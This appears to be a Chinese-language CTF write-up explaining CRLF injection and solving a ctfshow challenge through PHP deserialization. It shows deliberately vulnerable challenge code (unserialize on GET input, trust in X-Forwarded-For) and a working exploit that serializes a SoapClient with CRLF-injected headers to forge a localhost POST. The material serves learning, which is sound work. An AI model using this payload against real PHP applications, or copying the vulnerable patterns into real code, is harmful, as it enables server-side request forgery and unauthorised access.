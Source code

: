 

**CRLF注入攻击**

CRLF是“回车+换行”（\r\n）的简称，其十六进制编码分别为0x0d和0x0a。在HTTP协议中，HTTP header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP内容并显示出来。所以，一旦我们能够控制HTTP消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码。CRLF漏洞常出现在Location与Set-cookie消息头中。

在上面的图中，我们可以看到，SOAPAction是可控的点，我们注入两个\r\n来控制POST请求头

但还有一个问题需要解决，POST数据指定请求头为Content-Type:application/x-www-form-urlencoded，我们需要控制Content-Type，但从上图中可以发现它位于SOAPAtion上方。
继续往上，可以发现User-Agent位于Content-Type上方，这个位置也可以进行注入，所以我们再User-Agent进行注入

题目代码如下

```php
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

flag.php的内容如下

```

$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}
```

生成反序列化内容如下

```php
<?php
$post_string = "token=ctfshow";
$a = new SoapClient(null,array('location'=>'http://127.0.0.1/flag.php', 'user_agent'=>"lin\r\nContent-Type:application/x-www-form-urlencoded\r\n"."X-Forwarded-For: 127.0.0.1,127.0.0.1\r\n"."Content-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string, 'uri'=>"aaa"));
echo urlencode(serialize($a));
```

然后触发反序列化后，访问flag.txt即可得到flag
